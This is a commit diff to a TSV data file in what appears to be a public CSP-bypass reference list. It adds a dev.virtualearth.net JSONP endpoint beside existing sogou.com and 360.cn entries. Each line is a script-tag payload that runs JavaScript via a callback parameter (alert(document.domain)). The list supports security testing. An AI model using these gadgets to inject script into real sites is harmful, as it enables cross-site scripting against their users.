

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added virtualearth.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -209 +209,2 @@ zhike.help.360.cn	<script src="https://zhike.help.360.cn/api/v1/robotWindow?call
 zhuanjia.sogou.com	<script src="https://zhuanjia.sogou.com/base/ajax/login/login-init?callback=alert(1)-"></script>
+dev.virtualearth.net  <script src="https://dev.virtualearth.net/REST/v1/Imagery/Metadata/Road?jsonp=alert(document.domain);//"></script>
```
